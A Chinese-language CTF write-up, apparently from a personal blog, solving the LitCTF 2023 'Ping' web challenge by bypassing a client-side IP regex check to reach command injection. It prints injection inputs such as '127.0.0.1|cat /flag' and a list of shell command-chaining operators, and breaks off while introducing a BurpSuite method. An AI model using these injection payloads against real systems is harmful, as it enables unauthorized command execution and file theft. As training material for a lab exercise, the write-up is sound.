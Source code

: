 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3873
date: 2024-11-30
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true









---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第22题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称 | 题目方向 | 难度 |
| -------- | -------- | -------- | ---- |
| 3873     | Ping     | Web      | 1    |

<!-- more -->

# 题目21：Ping

### 题目描述：看看能PING出什么

### 考点：前端禁用&命令执行

### 预期解：

进入页面后，我们看到提示Ping一下

![image-20241130192517588](/img/essay/image-20241130192517588.png)

我们先尝试ping了一下127.0.0.1，返回了正常ping的结果

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.047 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.055 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.045 ms
64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.052 ms
64 bytes from 127.0.0.1: seq=4 ttl=42 time=0.057 ms
64 bytes from 127.0.0.1: seq=5 ttl=42 time=0.060 ms
--- 127.0.0.1 ping statistics ---
6 packets transmitted, 6 packets received, 0% packet loss
round-trip min/avg/max = 0.045/0.052/0.060 ms
```

我们尝试使用命令拼接，也就是在ip地址后加上	“|”	，提示“敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦”

除此之外，还应该点开F12审查元素，这是我们要养成的良好习惯之一，可以看到这里是在前端做了校验，只能输入数字、点这两种符号，如果违规输入前端就会直接拦截。

```html
  <body>
    <div class="container">
      <h1>试着Ping一下吧</h1>
      <script type="text/javascript">
  function check_ip(){
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;
    if(re.test(ip.trim())){
      return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
  }
</script>
      <form action="" method="POST" onsubmit="return check_ip()">
          <input id="command" name="command" type="text" placeholder="Enter an IP address"/>
          <input name="ping" type="submit" value="Ping"/>
      </form>
```

此时我们有多种方式可以绕过前端的校验

### 方法一：JS禁用

在F12页面点击设置，将JavaScript禁用掉，这种方法是不会影响我们提交的，因为提交是Form表单提交的，和js没有关系，js只是校验它是不是ip地址

![image-20241130193747779](/img/essay/image-20241130193747779.png)

在禁用掉js以后，我们重新拼接ip地址和命令，用管道符连接

```
127.0.0.1|ls /
```

![image-20241130194038567](/img/essay/image-20241130194038567.png)

可以看到flag文件就在根目录，直接输入命令展示flag内容即可看到flag内容

```
127.0.0.1|cat /flag
```

> 这种方法要记得常用的命令拼接方法，比如最常用的是管道符
>
> command1 && command2 先执行 command1，如果为真，再执行 command2 
>
> command1 | command2 只执行 command2 
>
> command1 & command2 先执行 command2 后执行 command1 
>
> command1 || command2 先执行 command1，如果为假，再执行 command2

### 方法二：JS Hook

我们在用F12审查元素，审查JS代码，函数名是check_ip

```html
<script type="text/javascript">
  function check_ip(){
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;
    if(re.test(ip.trim())){
      return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
  }
</script>
```

复制这个函数名，我们到F12开发者工具的Console控制台页面

将check_ip这个函数置为空，其实就是将默认的函数名name和参数params删掉，回车即可

![image-20241130194900829](/img/essay/image-20241130194900829.png)

然后同方法一相同，使用管道符在ip地址后拼接命令，即可拿到flag

### 方法三：用HackBar直接提交到后端

我们在审查源码的时候，看到他是POST表单提交，表单的参数名是command，所以我们想到可以直接使用HackBar提交后端的方法，来绕过前端的校验

```html
<form action="" method="POST" onsubmit="return check_ip()">
     <input id="command" name="command" type="text" placeholder="Enter an IP address"/>
     <input name="ping" type="submit" value="Ping"/>
</form>
```

发送一个POST请求，form表单参数为

```
command=127.0.0.1|ls /
```

![image-20241130195837977](/img/essay/image-20241130195837977.png)

同方法一相同，我们使用cat命令即可拿到flag

### 方法四：使用BurpSuite抓包修改

如果有抓包的习惯，可以使用BurpSuite抓包，